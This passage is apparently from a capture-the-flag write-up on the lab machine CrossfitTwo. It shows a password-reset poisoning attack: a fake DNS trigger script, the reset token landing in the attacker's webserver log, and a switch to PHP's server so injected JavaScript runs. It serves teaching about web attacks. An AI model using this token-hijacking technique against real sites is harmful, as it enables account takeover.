 
With the Python webserver running (`python3 -m http.server 80`), I’ll run the
trigger script:

    
    
    oxdf@parrot$ ./trigger.sh 
    [*] Starting DNS server
    [*] Forwarding zone
    >> Parsed 1 rules from ./fakedns.conf
    ok
    [*] Triggering password reset
    >> Matched Request - 0xdf-employees.crossfit.htb.
    >> Matched Request - 0xdf-employees.crossfit.htb.
    Reset link sent, please check your email.
    [*] Sleeping 60 seconds waiting for link click
    >> Matched Request - 0xdf-employees.crossfit.htb.
    

That last resolution is the browser click, and there’s a request at the
webserver:

    
    
    10.10.10.232 - - [11/Jul/2021 07:02:08] "GET /password-reset.php?token=3eea14906a89827ba66deb4a76fc2e9a131e4c6ad8cdb05e4782c6fa6e691b4c3bc40a6a7a3db51134f6dcc393b96ef4613a15a02cd88afc3d5b580e223aaacc HTTP/1.1" 200 -
    

But I would then expect another POST to `/test`, but it doesn’t come. To test
(after making sure to set my `/etc/hosts` file to point `0xdf-
employees.crossfit.htb` to my IP), I visited `http://0xdf-
employees.crossfit.htb/password-reset.php` in Firefox:

![image-20210711071039023](https://0xdfimages.gitlab.io/img/image-20210711071039023.png)

This is because of the `Content-Type` header Python is including in the HTTP
response:

    
    
    HTTP/1.0 200 OK
    Server: SimpleHTTP/0.6 Python/3.9.2
    Date: Sun, 11 Jul 2021 11:10:25 GMT
    Content-type: application/octet-stream
    Content-Length: 315
    Last-Modified: Sun, 11 Jul 2021 10:49:54 GMT
    

Firefox isn’t sure how to display `application/octet-stream`, so it treats it
like a file. If The automation on CrossfitTwo is also using a browser to view
the page, then it won’t load the JavaScript and run it.

PHP has a webserver as well, so I’ll try `php -S 0.0.0.0:80`. On refreshing
Firefox, there are multiple requests at the PHP webserver, including `/test`
which indicates the JavaScript executed:

    
    
    [Sun Jul 11 07:12:55 2021] PHP 7.4.15 Development Server (http://0.0.0.0:80) started
    [Sun Jul 11 07:13:21 2021] 10.10.14.13:44486 Accepted
    [Sun Jul 11 07:13:21 2021] 10.10.14.13:44486 [200]: GET /password-reset.php
    [Sun Jul 11 07:13:21 2021] 10.10.14.13:44486 Closing
    [Sun Jul 11 07:13:21 2021] 10.10.14.13:44490 Accepted
    [Sun Jul 11 07:13:21 2021] 10.10.14.13:44490 [200]: GET /test
    [Sun Jul 11 07:13:21 2021] 10.10.14.13:44490 Closing
    [Sun Jul 11 07:13:22 2021] 10.10.14.13:44494 Accepted
    [Sun Jul 11 07:13:22 2021] 10.10.14.13:44494 [404]: GET /favicon.ico - No such file or directory
    [Sun Jul 11 07:13:22 2021] 10.10.14.13:44494 Closing
    